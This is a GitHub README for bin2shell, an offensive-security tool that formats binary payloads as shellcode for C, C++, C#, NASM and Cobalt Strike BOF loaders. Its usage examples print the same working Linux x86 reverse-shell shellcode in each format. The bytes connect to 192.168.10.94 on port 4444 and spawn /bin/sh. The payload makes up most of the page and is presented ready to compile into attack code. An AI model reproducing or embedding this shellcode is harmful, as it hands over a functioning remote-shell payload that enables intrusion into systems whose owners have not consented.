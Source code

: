  <h1 align="center">
  🐚 bin2shell
</h1>
<p align="center">
   <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fbin2shell">
    <img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fbin2shell&label=Visitors&countColor=%2337d67a" />
  </a>
    <a href="https://www.facebook.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Facebook-%231877F2.svg?style=for-the-badge&logo=Facebook&logoColor=white" alt="Facebook">
    </a>
      <a href="https://www.twitter.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Twitter-%23000000.svg?style=for-the-badge&logo=X&logoColor=white" alt="X">
    </a>
    <a href="https://medium.com/@l0n3m4n">
        <img src="https://img.shields.io/badge/Medium-12100E?style=for-the-badge&logo=medium&logoColor=white" alt="Medium">
    </a>
    <a href="https://www.python.org/">
    <img src="https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54" alt="Python">
    </a>
    <a href="https://www.kali.org/">
    <img src="https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white" alt="Kali">      
    </a>
</p>
<br>

## 📜 Description
A small script that generate shellcode from various low level languages. 

📚 Table of Contents
- 📜 [Description](#-description)
- ⚙️ [Help](#-help)
- 📌 [Author](#-author)
- 👨🏾‍⚖️ [License](#-license)

## ⚙️ Help
```bash
python3 bin2shell.py -h
  
  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
      Author: @l0n3m4n / Shellcode Generator / v1.2

usage: bin2shell.py [-h] -bin BIN [-c C] [-cpp CPP] [-cs CS] [-asm ASM] [-bof BOF]

Shellcode Generator (C,C#,CPP,ASM)

options:
  -h, --help  show this help message and exit
  -bin  BIN   Input shellcode binary file
  -c    C     Convert binart into C raw shellcode
  -cpp  CPP   Convert binary into CPP raw shellcode
  -cs   CS    Convert binary into C# raw shellcode
  -asm  ASM   Convert binary into (NASM) raw shellcode
  -bof  BOF   Convert cobalt strike BOF into raw shellcode

Example usage: python3 bin2shell.py -bin shellcode.bin -c shellcode_c.txt
```
## Usage
### Binary payload to C shellcode 
```bash
$ python3 bin2shell.py -bin shellcode.bin -c shellcode_c.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
      Author: @l0n3m4n / Shellcode Generator / v1.2


Formatted C Shellcode:

"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80" 
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x0a\x5e\x68" 
"\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1" 
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3" 
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80"

Saved C formatted shellcode to shellcode_c.txt
```
### Binary payload to C++ shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -cpp shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted C++ Shellcode:

const char shellcode[] = {0x31,0xdb,0xf7,0xe3,0x53,0x43,0x53,0x6a,0x02,0x89,0xe1,0xb0,0x66,0xcd,0x80,0x93,0x59,0xb0,0x3f,0xcd,0x80,0x49,0x79,0xf9,0x68,0xc0,0xa8,0x0a,0x5e,0x68,0x02,0x00,0x11,0x5c,0x89,0xe1,0xb0,0x66,0x50,0x51,0x53,0xb3,0x03,0x89,0xe1,0xcd,0x80,0x52,0x68,0x6e,0x2f,0x73,0x68,0x68,0x2f,0x2f,0x62,0x69,0x89,0xe3,0x52,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80};

Saved C++ formatted shellcode to shell.txt
```
### Binary payload to C# shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -cs shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted C# Shellcode:

byte[] shellcode = new byte[] {0x31,0xdb,0xf7,0xe3,0x53,0x43,0x53,0x6a,0x02,0x89,0xe1,0xb0,0x66,0xcd,0x80,0x93,0x59,0xb0,0x3f,0xcd,0x80,0x49,0x79,0xf9,0x68,0xc0,0xa8,0x0a,0x5e,0x68,0x02,0x00,0x11,0x5c,0x89,0xe1,0xb0,0x66,0x50,0x51,0x53,0xb3,0x03,0x89,0xe1,0xcd,0x80,0x52,0x68,0x6e,0x2f,0x73,0x68,0x68,0x2f,0x2f,0x62,0x69,0x89,0xe3,0x52,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80};

Saved C# formatted shellcode to shell.txt
```
### BOF loader to shellcode 
```bash
$ python3 bin2shell.py -bin shellcode.bin -bof shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted BOF Loader Shellcode:

31dbf7e35343536a0289e1b066cd809359b03fcd804979f968c0a80a5e680200115c89e1b066505153b30389e1cd8052686e2f7368682f2f626989e3525389e1b00bcd801c3fe6e948000000

Saved BOF Loader formatted shellcode to shell.txt
```
### Binary payload to ASM shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -asm shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted ASM Shellcode:

section .text
global _start

_start:
        jmp shellcode

shellcode:
        db 0x31
        db 0xdb
        db 0xf7
        db 0xe3
        db 0x53
        db 0x43
        db 0x53
        db 0x6a
        db 0x02
        db 0x89
        db 0xe1
        db 0xb0
        db 0x66
        db 0xcd
        db 0x80
        db 0x93
        db 0x59
        db 0xb0
        db 0x3f
        db 0xcd
        db 0x80
        db 0x49
        db 0x79
        db 0xf9
        db 0x68
        db 0xc0
        db 0xa8
        db 0x0a
        db 0x5e
        db 0x68
        db 0x02
        db 0x00
        db 0x11
        db 0x5c
        db 0x89
        db 0xe1
        db 0xb0
        db 0x66
        db 0x50
        db 0x51
        db 0x53
        db 0xb3
        db 0x03
        db 0x89
        db 0xe1
        db 0xcd
        db 0x80
        db 0x52
        db 0x68
        db 0x6e
        db 0x2f
        db 0x73
        db 0x68
        db 0x68
        db 0x2f
        db 0x2f
        db 0x62
        db 0x69
        db 0x89
        db 0xe3
        db 0x52
        db 0x53
        db 0x89
        db 0xe1
        db 0xb0
        db 0x0b
        db 0xcd
        db 0x80

Saved ASM formatted shellcode to shell.txt
``` 
## 📌 Author
- [Facebook](https://facebook.com/l0n3m4n)
- [Twitter (X)](https://twitter.com/l0n3m4n)
- [Medium](https://medium.com/l0n3m4n)
- [Website](https://l0n3m4n.github.io)

## 👨🏾‍⚖️ License
This project is under terms of the [MIT License](LICENSE). For fixing Bugs, create [issue](https://github.com/l0n3m4n/bin2shell/issues/new)
